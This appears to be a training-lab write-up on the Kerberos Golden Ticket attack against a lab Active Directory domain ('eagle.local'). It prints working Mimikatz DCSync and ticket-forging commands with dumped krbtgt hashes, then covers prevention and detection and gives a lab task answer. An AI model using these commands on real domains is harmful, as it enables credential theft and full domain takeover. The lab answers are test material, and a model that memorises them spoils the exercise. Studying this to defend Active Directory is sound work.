

# Golden Ticket

## Description

The `Kerberos Golden Ticket` is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.

**krbtgt account**:

* Special account **created by default** when a domain is made.
* **Disabled**, **cannot be deleted**, renamed, or enabled.
* Used by the **Domain Controller's KDC service** to sign Kerberos tickets.

**krbtgt password hash**:

* Used to **sign all Kerberos tickets** (TGTs – Ticket Granting Tickets).
* Most **trusted object** in the domain.
* If an attacker gets this **hash**, they can:
  * Create **fake TGTs**.
  * Give **any privileges** to these tickets (even admin).
  * Domain **trusts** them because they’re signed with the correct key.
* The golden ticket attack can move from child domain to parent domain in the sam forest
* It enables lon get persistance in the network
* The tickets are forever lasting so eve nif the attacker is eradicated, he can come back easy

***

## Attack

We perform the attack with **Mimikatz** and the following arguments:

* `/domain`: The domain's name.
* `/sid`: The domain's SID value.
* `/rc4`: The password's hash of `krbtgt`.
* `/user`: The username for which `Mimikatz` will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
* `/id`: Relative ID (last part of `SID`) for the user for whom `Mimikatz` will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the `/renewmax` and `/endin` arguments, as otherwise, `Mimikatz` will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:

* `/renewmax`: The maximum number of days the ticket can be renewed.
* `/endin`: End-of-life for the ticket.

<mark style="color:yellow;">1.</mark>\
We need to obtain the password hash for krbtgt and the SID value of the domain.\
We do this like shown in the DCSync attack. And look for the NTLM hash.

### Get passwrod hash

```cmd-session
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 07/08/2022 11.26.54
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: db0d0630064747072a7da3f7c3b4069e
    ntlm- 0: db0d0630064747072a7da3f7c3b4069e
    lm  - 0: f298134aa1b3627f4b162df101be7ef9

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b21cfadaca7a3ab774f0b4aea0d7797f

* Primary:Kerberos-Newer-Keys *
    Default Salt : EAGLE.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1335dd3a999cacbae9164555c30f71c568fbaf9c3aa83c4563d25363523d1efc
      aes128_hmac       (4096) : 8ca6bbd37b3bfb692a3cfaf68c579e64
      des_cbc_md5       (4096) : 580229010b15b52f

* Primary:Kerberos *
    Default Salt : EAGLE.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 580229010b15b52f

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  b4799f361e20c69c6fc83b9253553f3f
    02  510680d277587431b476c35e5f56e6b6
    03  7f55d426cc922e24269610612c9205aa
    04  b4799f361e20c69c6fc83b9253553f3f
    05  510680d277587431b476c35e5f56e6b6
    06  5fe31b1339791ab90043dbcbdf2fba02
    07  b4799f361e20c69c6fc83b9253553f3f
    08  7e08c14bc481e738910ba4d43b96803b
    09  7e08c14bc481e738910ba4d43b96803b
    10  b06fca48286ef6b1f6fb05f08248e6d7
    11  20f1565a063bb0d0ef7c819fa52f4fae
    12  7e08c14bc481e738910ba4d43b96803b
    13  b5181b744e0e9f7cc03435c069003e96
    14  20f1565a063bb0d0ef7c819fa52f4fae
    15  1aef9b5b268b8922a1e5cc11ed0c53f6
    16  1aef9b5b268b8922a1e5cc11ed0c53f6
    17  cd03f233b0aa1b39689e60dd4dbf6832
    18  ab6be1b7fd2ce7d8267943c464ee0673
    19  1c3610dce7d73451d535a065fc7cc730
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```

<mark style="color:yellow;">2.</mark>\
Use the Get-DomainSID in PowerView to get the SID of the Domain

### Get SID of the domain

```powershell-session
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```

<mark style="color:yellow;">3.</mark>\
Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT)

### Create the ticket

```cmd-session
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```

The output shows that `Mimikatz` injected the ticket in the current session, and we can verify that by running the command `klist` (after exiting from `Mimikatz`):

### Verify loaded tickets

```cmd-session
C:\Mimikatz>klist
```

<figure><figcaption></figcaption></figure>

To verify that the ticket is working, we can list the content of the `C$` share of `DC1` using it

### List contents of C share of DC1

```cmd-session
C:\Mimikatz>dir \\dc1\c$
```

***

## Prevention

* ❌ **Block privileged users** from authenticating to any device.
* 🔁 **Periodically reset `krbtgt` password**:
  * Use **Microsoft's `KrbtgtKeys.ps1` script**:
    * Has **audit mode** (checks for issues before reset).
    * Forces **DC replication** to avoid sync issues.
* 🧹 **Enable SIDHistory filtering** between domains:
  * Prevents **privilege escalation** from child → parent domains.
  * ⚠️ May cause issues during **domain migrations**.

***

## Detection

* Watch for **unusual login behavior** (time, location, device).
* Use **Privileged Access Workstations (PAWs)** for admins.
* Alert if privileged users log in from **non-PAW machines**.
* Monitor **event IDs 4624 (success)** and **4625 (fail)**.

***

## Note

If an Active Directory forest has been compromised, we need to reset all users' passwords and revoke all certificates, and for `krbtgt`, we must reset its password twice (in `every domain`). The password history value for the `krbtgt` account is 2. Therefore it stores the two most recent passwords. By resetting the password twice, we effectively clear any old passwords from the history, so there is no way another DC will replicate this DC by using an old password. However, it is recommended that this password reset occur at least 10 hours apart from each other (maximum user ticket lifetime); otherwise, expect some services to break if done in a shorter period.

***

## Useful video



***

## Tasks

## Task 1

**Practice the techniques shown in this section. What is the NTLM hash of the krbtgt user?**

Log in as Rocky, the user has more privileges, like we did in the DCSync excersise.\
Launch Mimikatz and perform the dcsync for the defualt user krbtgt.

<figure><figcaption></figcaption></figure>

Copy the password hash, that is also the answer to our question. But lest dig a bit more.

<figure><figcaption></figcaption></figure>

db0d0630064747072a7da3f7c3b4069e


Back on our bob user, get the domain SID

<figure><figcaption></figcaption></figure>

S-1-5-21-1518138621-4282902758-752445584


Perform the golden ticket creation command.

<figure><figcaption></figcaption></figure>

You can verify if the ticket is loaded in the sesion

<figure><figcaption></figcaption></figure>

And list the share in the DC1 from the rocky user

<figure><figcaption></figcaption></figure>
